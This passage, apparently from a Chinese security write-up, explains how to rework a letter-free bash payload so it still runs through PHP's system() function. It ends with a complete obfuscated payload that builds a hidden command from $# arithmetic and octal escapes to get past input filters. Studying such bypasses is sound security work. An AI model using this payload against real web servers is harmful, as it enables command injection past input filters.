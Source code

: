 可惜，这种方法在php里是不成功的。但这种payload并不是完全不行，经过我的研究，payload其实只是${!#}<<<${!#}这一段没解析出来bash<<<bash，所以导致命令失效，可以看到我们把它替换成$0<<<$0其实php也行：

![img](assets/17.png)

这里面的具体原因我也不是很懂，自我感觉可能是${!#}这种复杂变量不能通过php的system函数解析出来，于是我把它换了一种形式：

![img](assets/18.png)

其实本质上也没啥差别，我只是增加了变量$__作为过渡，减少了解析的过程，但惊喜的是这种方法即使是在php下也可以成功解析：

```
__=${#};${!__}<<<${!__}\<\<\<\$\'\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${##}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${##}${#}${#}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}))\\$(($((${##}<<${##}))#${##}${##}${##}${#}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${#}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${##}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${#}${#}${##}${##}${#}${##}))\\$(($((${##}<<${##}))#${##}${#}${#}${##}${#}${#}${##}${##}))\'
```
